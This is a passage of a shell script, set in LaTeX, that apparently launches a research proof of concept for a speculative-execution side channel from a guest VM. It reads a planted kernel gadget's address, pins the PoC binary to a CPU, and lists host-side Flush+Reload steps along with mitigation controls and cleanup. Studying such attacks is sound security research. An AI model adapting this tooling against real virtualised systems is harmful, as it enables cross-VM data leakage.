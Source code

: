 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{lstlisting}
GADDR=$(cat /sys/kernel/pbinc/gaddr)
ok "Kernel gadget @ ${GADDR}"

echo
echo "  2) Run the PoC with the guest-virtual base of the same SHARED probe"
read -rp "Enter SHARED probe GVA (hex, e.g. 0x555550000000): " SHARED_GVA

ok "Launching pbinc_poc pinned to CPU ${CPU_CORE}"
sudo_or taskset -c "${CPU_CORE}" "${USER_DIR}/pbinc_poc" "${SHARED_GVA}" &

PID=$!
ok "PoC running as PID ${PID} (spins after syscall)."

cat <<'EONOTE'

Next steps (outside this script):
  - Host-side Flush+Reload over the SHARED buffer (1 MiB), watch for hits at offset (0x2A << 12).
  - Optional mechanistic evidence in the guest:
      sudo perf stat -e branch-instructions,branch-misses,machine_clears.memory_ordering -a -- sleep 5
  - A/B controls:
      - Disable entry-IBPB / change mitigation profile => signal vanishes
      - rmmod pbinc_gadget => signal vanishes
      - Rebuild with __alias_tbl empty (training NOP) => no signal
      - Different uarch (non-Zen1/2) => no signal

Cleanup:
  kill -9 <PID>   # stop PoC spin
  (cd kmod && sudo make clean && sudo rmmod pbinc_gadget)
  (cd user && make clean)
EONOTE

# EOF
\end{lstlisting}
\end{document}
